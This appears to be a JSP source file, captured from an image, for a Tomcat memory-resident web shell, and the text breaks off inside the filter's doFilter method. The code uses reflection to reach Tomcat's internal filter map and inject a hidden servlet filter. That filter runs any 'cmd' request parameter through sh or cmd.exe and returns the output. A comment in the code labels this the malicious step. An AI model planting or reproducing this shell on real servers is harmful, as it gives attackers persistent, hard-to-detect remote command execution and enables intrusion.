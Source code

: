 ```jsp
<%@ page import="javax.servlet.http.HttpServletResponse"%>
<%@ page import="org.apache.catalina.core.ApplicationContext"%>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig"%>
<%@ page import="org.apache.catalina.core.StandardContext"%>
<%@ page import="org.apache.tomcat.util.descriptor.web.*"%>
<%@ page import="org.apache.catalina.Context"%>
<%@ page import="java.lang.reflect.*"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.util.Map"%>


<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Insert title here</title>
</head>
<body>
<%
final String name = "yuan";

ServletContext ctx = request.getSession().getServletContext();
Field f = ctx.getClass().getDeclaredField("context");
f.setAccessible(true);
ApplicationContext appCtx = (ApplicationContext)f.get(ctx);

f = appCtx.getClass().getDeclaredField("context");
f.setAccessible(true);
StandardContext standardCtx = (StandardContext)f.get(appCtx);


f = standardCtx.getClass().getDeclaredField("filterConfigs");
f.setAccessible(true);
Map filterConfigs = (Map)f.get(standardCtx);

if (filterConfigs.get(name) == null) {
   out.println("inject "+ name);
   
   Filter filter = new Filter() {
      @Override
      public void init(FilterConfig arg0) throws ServletException {
         // TODO Auto-generated method stub
      }

      // filter的主要操作，包含过滤调用等
      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
         // 恶意代码步骤
         String cmd = servletRequest.getParameter("cmd");
         boolean isLinux = true;
         String osTyp = System.getProperty("os.name");
         if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
         }
         String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
         InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
         Scanner s = new Scanner(in).useDelimiter("\\a");
         String output = s.hasNext() ? s.next() : "";
         PrintWriter out = servletResponse.getWriter();
         out.println(output);
```